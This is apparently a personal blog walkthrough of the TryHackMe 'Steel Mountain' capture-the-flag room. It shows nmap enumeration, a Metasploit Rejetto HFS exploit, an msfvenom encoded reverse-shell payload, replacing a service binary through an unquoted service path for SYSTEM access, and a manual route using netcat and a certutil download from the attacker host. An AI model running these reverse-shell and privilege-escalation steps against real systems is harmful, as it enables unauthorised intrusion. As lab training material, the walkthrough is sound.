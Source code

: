 ```yaml
---
slug: steel-mountain-walkthrough
title: TryHackMe - Steel Mountain - Walkthrough
authors: bw
tags: [learning, steelmountain, tryhackme, walkthrough]
---
```


This is a [TryHackMe][tryhackme] walkthrough for the room: [Steel Mountain][sm]. Deploy the machine and let’s get started!
<!-- truncate -->

# Enumeration
Start with our friend, nmap: `nmap -T4 -A -p- 10.10.89.192`

![sm1](/img/thm/steelmountain/sm1.png)

We get some good info here. We can see there is a website on port 80, also some other interesting ports. Let’s take a look at port 80 first!

![sm2](/img/thm/steelmountain/sm2.webp)

Hmm…not much here. Viewing the page source gives us our first answer though!

![sm3](/img/thm/steelmountain/sm3.png)

Let’s take a look at the other webserver (Second answer). For the third answer, take a look at the **Server Information**.

For the next answer, give Google a shot. [Exploit-DB][exdb] is always a good resource!

# Exploit
According to the next question, we need to use Metasploit: `msfconsole`

```bash
search rejetto 2.3
use 0
info
```
![sm4](/img/thm/steelmountain/sm4.png)

This definitely looks like what we are looking for! Now we need to set the options:

```bash
options
set rhosts 10.10.89.192
set rhosts rport 8080
set lhost tun0
options
```

I think that’s all we need: `run`

We have a shell! Let’s look for the user flag.

```bash
getuid
shell
cd C:\Users\bill
dir Desktop
type Desktop\user.txt
```
We found our `user.txt` flag!

![sm5](/img/thm/steelmountain/sm5.png)

Next, let’s download the provided PowerShell script: PowerUp

Just like the room tells us, let’s upload the script: `upload <path>/powerup.ps1`

Continue to follow the room instructions:

```powershell
load powershell
powershell_shell
. .\powerup.ps1
Invoke-AllChecks
```

Pay attention to all the checks being populated. There are some that have:
- `CanRestart: True`
- `Check: Unquoted Service Paths`

The ServiceName that belongs to those is our next answer!

Let’s create our payload using `msfvenom`:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<THM VPN IP> LPORT=4443 -e x86/shikata_ga_nai -f exe -o Advanced.exe
```

Exit out of the PowerShell session CTRL + C and then upload the payload: `Advanced.exe`

Now let’s stop the service and copy the file into the correct directory:

`sc stop <name of service>`

`copy Advanced.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"`

Overwrite the current file. Now we need to setup a listener on our local machine so the payload has something to connect the reverse shell to!

`nc -nvlp 4443`

Start the service: `sc start <name of service>`

Go look at your `netcat` terminal and you should have a shell! Find the root flag.

![sm6](/img/thm/steelmountain/sm6.png)

# Manual Exploitation
Now, we aren’t done with the room, but if this were real-world we have full system access and have complete control of the machine. I like how this room includes a manual exploitation section (good to learn for the OSCP) which is super useful!

We are provided with an exploit. So let’s keep going!

Create/copy the following files on your local machine:
- `exploit.py`
- `nc.exe`
- `winPEAS.exe`

Here are the links to download:
- [Exploit][rejetto]
- [nc listener][nc] (rename to `nc.exe` if it isn’t already)
- [winPEAS.exe][winpeas] (rename to `winPEAS.exe` if it isn’t already)
**NOTE:** Downloading winPEAS may get flagged by the browser. Make sure to accept any warning about a malicious file.

Now open 3 terminal windows:
1. Python Web Server
2. Netcat listener
3. run exploit

Edit the exploit to add our machine IP and port

![sm7](/img/thm/steelmountain/sm7.png)

In the Python webserver run: `python3 -m http.server 80`

In the netcat listener terminal run: `nc -nvlp 1234`

In the exploit terminal run: `python exploit.py 10.10.89.192 8080` (run this twice)

You should now have a shell!

Navigate to `C:\Users\Bill\Desktop` and pull `winPEAS.exe` to the server

`certutil -urlcache -f http://<THM VPN IP>/winPEAS.exe winPEAS.exe`

Now that we have that on the server, we can run it by simply doing: `winPEAS.exe` which provides us with unquoted paths and the ServiceName.

Utilize Google to find out the last question: `powershell -c <command>`

Now the next steps to get system is the same as before:

1. Configure an `msfvenom` payload:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<THM VPN IP> LPORT=4443 -e x86/shikata_ga_nai -f exe -o Advanced.exe
```
2. Utilize `certutil` to get the payload onto the server
3. Stop the service
4. Start a new `netcat` listener
5. Start the service
6. You should now be `NT AUTHORITY\SYSTEM`

# Review
This was a really well done room. It was a “walkthrough” but didn’t give you everything. It is a good in-between for someone who is doing well in walkthroughs but gets stuck on CTF type rooms.

Steel Mountain provided a good overall review of enumeration, privilege escalation, and exploitation. My favorite part was that it covered metasploit exploitation and manual exploitation!

References
[TryHackMe][tryhackme] | [Steel Mountain Room][sm] | [Exploit-DB][exdb] | [Rejetto Exploit][rejetto] | [nc listener][nc] | [winPEAS Download][winpeas]

[tryhackme]: https://tryhackme.com
[sm]: https://tryhackme.com/why-subscribe?roomCode=steelmountain
[exdb]: https://www.exploit-db.com
[rejetto]: https://www.exploit-db.com/exploits/39161
[nc]: https://github.com/andrew-d-binaries/blob/master/binaries/windows/x86/ncat.exe
[winpeas]: https://github.com/peass-ng/PEASS-ng/tree/master
